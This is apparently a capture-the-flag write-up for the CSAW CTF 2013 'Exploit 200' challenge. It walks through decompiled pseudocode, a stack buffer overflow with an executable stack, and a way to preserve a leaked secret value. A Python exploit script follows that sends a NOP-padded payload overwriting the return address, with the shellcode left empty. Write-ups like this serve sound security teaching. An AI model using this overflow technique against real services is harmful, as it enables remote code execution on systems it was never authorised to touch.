 CSAW CTF 2013 - Exploit 200
================================

Source were not provided, but with IDA and Hex-Ray we can get the following pseudocode:
```
int __cdecl handle(int fd)
{
  int result; // eax@1
  unsigned int v2; // eax@1
  char buf; // [sp+1Ch] [bp-80Ch]@1
  char v4; // [sp+81Bh] [bp-Dh]@1
  int v5; // [sp+81Ch] [bp-Ch]@1

  v5 = 0;
  memset(&buf, 0, 0x800u);
  v2 = time(0);
  srand(v2);
  secret = rand();
  v5 = secret;
  *(_DWORD *)&buf = &buf;
  send(fd, &buf, 4u, 0);
  send(fd, &v5, 4u, 0);
  send(
    fd,
    "Welcome to CSAW CTF.  Exploitation 2 will be a little harder this year.  Insert your exploit here:",
    0x63u,
    0);
  recv(fd, &buf, 0x1000u, 0);
  v4 = 0;
  result = secret;
  if ( v5 != secret )
  {
    close(fd);
    exit(0);
  }
  return result;
}
```

First thing to note is that `recv` read `0x1000` bytes of data into a buffer of `0x800`. We can use this to rewrite stack data. The overflow is big enough to rewrite the return address.

By running `readelf -l exploit2` we get `GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`, so the stack is executable (E flag in RWE).

All we need to do is to send our favorite shellcode and rewrite the return adresse to jump on our shellcode at the buffer location. The buffer location is sent by the application (`send(fd, &buf, 4u, 0);`).

The last thing to note is the `secret` variable. It is use to hold a random number and its value is copied into `v5`. If the value of `v5` changed after we send our payload, the program exit. Therefor, we need to keep the same value when we rewrite the stack since `v5` is before the buffer. Luckily, the secret value is sent before `recv`, so we can write it in our payload.

Our final exploit code was the following:

```
shellcode = ''
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('128.238.66.212', 31338))

buf_size = 0x800
buf_addr = s.recv(4)
secret = s.recv(4)
s.recv(1024)

payload = shellcode + '\x90' * (buf_size-len(shellcode)) + secret + '\x90' * 12 + buf_addr

s.send(payload)
```
